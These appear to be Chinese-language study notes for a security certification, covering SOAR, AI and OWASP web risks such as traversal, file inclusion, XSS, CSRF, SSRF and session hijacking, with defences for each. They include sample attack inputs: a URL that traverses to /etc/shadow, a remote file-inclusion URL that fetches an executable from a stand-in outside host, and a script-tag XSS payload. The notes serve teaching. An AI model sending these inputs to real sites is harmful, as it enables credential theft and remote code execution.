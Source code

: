 ```

SIEM:監測多個系統、SOAR：常見攻擊自動做響應

安全編排自動事件響應SOAR 組織自動響應某些事件的技術、安管人員靠手動操作並核實每個告警再作出響應
>根據事件不同發數告警並採取其他行動、安管人員可以使用腳本自動化定義及對事件響應或手動執行

-機器學習和AI工具
>機器學習事AI的一部分、通過經驗自動改進賦予學習能力、基線起點歸納規則才能有勝算
>AI包含機器學習還具備不需要人工干預狀況完成任務、從無到有反覆與自己練增加經驗哪些是有效跟無效策略的回饋自己獨立算法
-->AI包括深度學習、ML、專家(知識庫+推理系統)、自然語言



```
支付頁異常竄改
```


利用授權漏洞
-->>OWASP 提高在現或基線的 WEB應用程序安全性、前十大風險榜單做安全評估和滲透的合理起點
不安全的直接對象引用  查詢或請求參數值截從數據庫檢索信息、進行修改
->>應用程式仍負責確保用戶經過適當身分驗證，並備受權請求的文檔

目錄遍歷  安全配置錯誤而允許用戶瀏覽目錄結構並可訪問應保密文件或未正確限制對儲存在服務器其他位子
www.abc.com/rty.php -> /var/www/html/rty.php
->>若要尋找shadow文件只要輸入  www.abc.com/../../../etc/shadow  #回上三層再cd /etc/shadow

文件包含  實際執行文件包含代碼 在c:\www\upload\atck.exe  --> http://www.abc.com/app.php?include=c:\\www\upload\\atck.exe
->>持行遠程服務器代碼不必儲存在服務器上  --> http://www.abc.com/app.php?include=http://www.qwe.com/atck.exe
-->>上傳webshell到服務器並執行命令在瀏覽器查看結果、通常透過80,443訪問服務器所以不易被檢測到、
-->>可能會修復用過取得權限漏洞防止其他攻擊者發現利用、或得到攻擊成功消息的安全團隊發現該漏洞


防禦：輸入驗證、轉譯元字符、防禦性編碼
跨站腳本  web應用程式允許執行HTML注入網頁插入自己代碼就會發生XSS、
->>反射XSS  允許反射輸入、使用luke<script>alert('ballo')</script> 就會顯示文字ballo並執行腳本部分
-->>看似'可信'網站隨後會執行表單輸入框輸入嵌入腳本、應確定允許輸入類型並驗證實際輸入匹配、
-->>輸出編碼將潛在危險內容轉換安全形式  '  --> &#x27

->>儲存持續XSS   遠程服務器儲存跨站腳本代碼、沒有主動發起攻擊也會保留在服務器上(留言板)
-->>當用戶加載就會彈出插入的腳本定向到釣魚網站

請求偽造 
->>跨站請求偽造XSRF,CSRF(誘騙用戶)  利用遠程站點對用戶系統信任嵌入代碼並不知覺代表用戶向第二站點執行命令、
-->>連結中嵌入安全令牌、或讓網站檢查最終用戶接收到的請求引用URL並接受源於他們自己的站點請求

->>服務器端請求偽造SSRF(誘騙服務器) 根據用戶輸入訪問URL作為輸入、從該URL檢索就會發生SSRF去訪問未公開私人URL

會話劫持  攔截授權用戶和資源部分通信兵接管會話和假冒授權用戶的身份
->>捕獲用戶和服務器間身份認證詳細信息去假冒身份、誘騙客戶攻擊者系統就是服務、建立合法連接充當中介然後斷開客戶端的連接
->>使用未正確關閉連接用戶cookie數據訪問web應用程序、設計未正確管理身份認證cookie的應用程序訪問
->>管理控制：反重放身份認證技術、應用程序控制：合理時間使cookie過期




間諜軟件與廣告軟件  監控你的行為活動的遠程系統傳送重要細節(PAN卡號)、監控購物行為並重定向到競爭者網站
->潛在有害程序PUP  用戶可能同意安裝在系統上然後軟件背地執行未授權功能、在原始插件代碼添加惡意代碼散播竊取或進行有害活動
```
